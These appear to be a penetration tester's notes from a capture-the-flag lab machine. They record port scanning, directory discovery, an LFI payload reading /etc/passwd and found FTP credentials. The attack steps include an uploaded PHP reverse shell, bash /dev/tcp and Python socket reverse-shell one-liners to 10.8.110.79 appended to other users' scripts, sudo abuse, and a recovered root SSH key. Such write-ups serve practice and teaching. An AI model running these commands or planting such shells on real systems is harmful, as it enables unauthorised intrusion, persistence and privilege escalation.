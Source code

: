 nmap:
21 ftp
22 ssh
80 http


 gobuster:
 found robots.txt contains: /flag_1.txt
							/secret_file_do_not_read.txt

LFI exploit: /post.php?post=../../../../../etc/passwd
can read: /post.php?post=secret_file_do_not_read.txt
found ftp cred: ftpuser:givemefiles777  -> flag_2.txt

put rev shell to files dir in ftp
/post.php?post=/home/ftpuser/ftp/files/php-reverse-shell.php
 ->     get rev shell.

 -> access as toby: sudo -u toby bash

echo "bash -i >& /dev/tcp/10.8.110.79/8080 0>&1" >> cow.sh

 -> access as mat

echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.110.79",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]) " >> cmd.py

run will_script as will: sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py *
 
 -> access as will

 find / -group adm 
 found /opt/backups/key.b64 (base64)
 decode found rsa private key

 ssh -i id_rsa root@<ip>
  -> access as root

